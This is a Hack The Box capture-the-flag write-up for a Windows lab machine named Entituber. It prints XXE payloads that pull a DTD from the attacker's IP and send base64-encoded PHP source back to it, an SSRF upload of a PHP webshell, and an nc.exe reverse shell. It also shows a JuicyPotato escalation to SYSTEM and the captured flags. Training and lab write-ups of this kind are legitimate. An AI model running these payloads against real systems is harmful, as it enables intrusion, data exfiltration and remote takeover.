

# Entituber
```
# nmap -p- -sCV entituber.htb
Nmap scan report for entituber.htb (10.129.172.185)
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) PHP/7.4.20)
|_http-server-header: Apache/2.4.48 (Win64) PHP/7.4.20
|_http-title: eCorp - Index
```

The web server on port 80 allows us to import UBL files. This is a hint towards XXE.
By submitting p.xml in the web server we can get a callback to our dtd and use PHP wrappers to read PHP source code:

```bash
$ cat p.xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.27/fileread.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>

$ cat fileread.dtd 
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=management.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.27/?%data;'>">
```

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.155.192 - - [27/Jul/2021 02:28:15] "GET /fileread.dtd HTTP/1.0" 200 -
10.129.155.192 - - [27/Jul/2021 02:28:15] "GET /?PGh0bWw+DQo8aGVhZD48dGl0bGU+WFNEIE1hbmFnZW1lbnQ8L3RpdGxlPjwvaGVhZD4NCjxib2R5Pg0KPD9waHANCiAgaWYoJF9TRVJWRVJbJ1JFTU9URV9BRERSJ10gIT09ICcxMjcuMC4wLjEnKQ0KICB7DQogICAgICBlY2hvICI8cD5JUCBhZGRyZXNzIG5vdCBhbGxvd2VkLjwvcD4iOw0KICAgICAgZGllKCk7DQogIH0NCiAgaWYoaXNzZXQoJF9SRVFVRVNUWydmaWxlbmFtZSddKSAmJiBpc3NldCgkX1JFUVVFU1RbJ3VybCddKSkNCiAgew0KICAgICAgaWYocHJlZ19tYXRjaCgnL15bXHdcLV0rXC54c2QvJywgJF9SRVFVRVNUWydmaWxlbmFtZSddKSAmJiBmaWx0ZXJfdmFyKCRfUkVRVUVTVFsndXJsJ10sIEZJTFRFUl9WQUxJREFURV9VUkwpKQ0KICAgICAgew0KICAgICAgICBmaWxlX3B1dF9jb250ZW50cygieHNkL2NvbW1vbi8iLiRfUkVRVUVTVFsnZmlsZW5hbWUnXSwgZmlsZV9nZXRfY29udGVudHMoJF9SRVFVRVNUWyd1cmwnXSkpOw0KICAgICAgfSANCiAgfQ0KPz4NCjxoMz5YU0QgRG93bmxvYWRlcjwvaDM+DQoNCjxmb3JtIG1ldGhvZD0icG9zdCI+DQogIDxsYWJlbCBmb3I9ImZpbGVuYW1lIj5GaWxlIG5hbWU8L2xhYmVsPg0KICA8aW5wdXQgdHlwZT0idGV4dCIgbmFtZT0iZmlsZW5hbWUiPg0KICA8YnI+DQogIDxsYWJlbCBmb3I9InVybCI+RG93bmxvYWQgVVJMPC9sYWJlbD4NCiAgPGlucHV0IHR5cGU9InRleHQiIG5hbWU9InVybCI+DQogIDxicj4NCiAgPGJ1dHRvbiB0eXBlPSJzdWJtaXQiPkRvd25sb2FkIFhTRDwvYnV0dG9uPg0KPC9mb3JtPg0KPGJvZHk+DQo= HTTP/1.0" 200 -


$ echo PGh0bWw+DQo8aGVhZD48dGl0bGU+WFNEIE1hbmFnZW1lbnQ8L3RpdGxlPjwvaGVhZD4NCjxib2R5Pg0KPD9waHANCiAgaWYoJF9TRVJWRVJbJ1JFTU9URV9BRERSJ10gIT09ICcxMjcuMC4wLjEnKQ0KICB7DQogICAgICBlY2hvICI8cD5JUCBhZGRyZXNzIG5vdCBhbGxvd2VkLjwvcD4iOw0KICAgICAgZGllKCk7DQogIH0NCiAgaWYoaXNzZXQoJF9SRVFVRVNUWydmaWxlbmFtZSddKSAmJiBpc3NldCgkX1JFUVVFU1RbJ3VybCddKSkNCiAgew0KICAgICAgaWYocHJlZ19tYXRjaCgnL15bXHdcLV0rXC54c2QvJywgJF9SRVFVRVNUWydmaWxlbmFtZSddKSAmJiBmaWx0ZXJfdmFyKCRfUkVRVUVTVFsndXJsJ10sIEZJTFRFUl9WQUxJREFURV9VUkwpKQ0KICAgICAgew0KICAgICAgICBmaWxlX3B1dF9jb250ZW50cygieHNkL2NvbW1vbi8iLiRfUkVRVUVTVFsnZmlsZW5hbWUnXSwgZmlsZV9nZXRfY29udGVudHMoJF9SRVFVRVNUWyd1cmwnXSkpOw0KICAgICAgfSANCiAgfQ0KPz4NCjxoMz5YU0QgRG93bmxvYWRlcjwvaDM+DQoNCjxmb3JtIG1ldGhvZD0icG9zdCI+DQogIDxsYWJlbCBmb3I9ImZpbGVuYW1lIj5GaWxlIG5hbWU8L2xhYmVsPg0KICA8aW5wdXQgdHlwZT0idGV4dCIgbmFtZT0iZmlsZW5hbWUiPg0KICA8YnI+DQogIDxsYWJlbCBmb3I9InVybCI+RG93bmxvYWQgVVJMPC9sYWJlbD4NCiAgPGlucHV0IHR5cGU9InRleHQiIG5hbWU9InVybCI+DQogIDxicj4NCiAgPGJ1dHRvbiB0eXBlPSJzdWJtaXQiPkRvd25sb2FkIFhTRDwvYnV0dG9uPg0KPC9mb3JtPg0KPGJvZHk+DQo= |base64 -d > management.php
```

`management.php` contains the following code:

```python
<html>
<head><title>XSD Management</title></head>
<body>
<?php
  if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
  {
      echo "<p>IP address not allowed.</p>";
      die();
  }
  if(isset($_REQUEST['filename']) && isset($_REQUEST['url']))
  {
      if(preg_match('/^[\w\-]+\.xsd/', $_REQUEST['filename']) && filter_var($_REQUEST['url'], FILTER_VALIDATE_URL))
      {
        file_put_contents("xsd/common/".$_REQUEST['filename'], file_get_contents($_REQUEST['url']));
      } 
  }
?>
<h3>XSD Downloader</h3>

<form method="post">
  <label for="filename">File name</label>
  <input type="text" name="filename">
  <br>
  <label for="url">Download URL</label>
  <input type="text" name="url">
  <br>
  <button type="submit">Download XSD</button>
</form>
<body>
```
By analyzing the source code of the management.php file we noticed few things:
  1. To upload a file we need to come from 127.0.0.1
  2. A regex is checking the filename

For the first point, we can abuse the XXE in order to do a SSRF to management.php endpoint.
For the second point, the regex does not prevent us from adding the .php extension to the file: `plop.xsd.php` will be a valid name.

The following xml payload will do the SSRF in order to upload `mine.php` (with our webshell within) to `/xsd/common/plop.xsd.php`

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/management.php?filename=plop.xsd.php&url=http://10.10.14.27:8000/mine.php">

%sp;
%param1;
]>
<r>&exfil;</r>
```

```
$ cat mine.php 
<?php
system($_POST[0]);
?>
```


We established a reverse shell with `nc.exe`(previously uploaded) and then we grabbed the user flag:

```
PS C:\users\bella> cat /users/bella/desktop/user.txt
HTB{CR055_R04DS_W17H_THE_XXE}
```
When checking our privileges we can see the user has the `SeImpersonatePrivilege`. We used an obfuscated version of [juicy potato](https://github.com/ohpe/juicy-potato) to get a root shell:
```
PS C:\windows\temp\mine> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

PS C:\windows\temp\mine> type root.bat
powershell /windows/temp/nc.exe 10.10.14.27 9001 -e powershell.exe

PS C:\windows\temp\mine> .\j.exe -t * -p C:\windows\temp\mine\root.bat -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -l 9002                                                                                          
.\j.exe -t * -p C:\windows\temp\mine\root.bat -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -l 9002
wut this ? {e60687f7-01a1-40aa-86ac-db1cbf673334}:9002
......
aUth reSUlt: 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

WUT!!!
```

We received the callback from juicy potato.
```
$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Connection from 10.129.155.192 49696 received!
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> cat /users/administrator/desktop/root.txt
HTB{1_AM_A_P0TAT0_T4M3T0?}
PS C:\Windows\system32>
```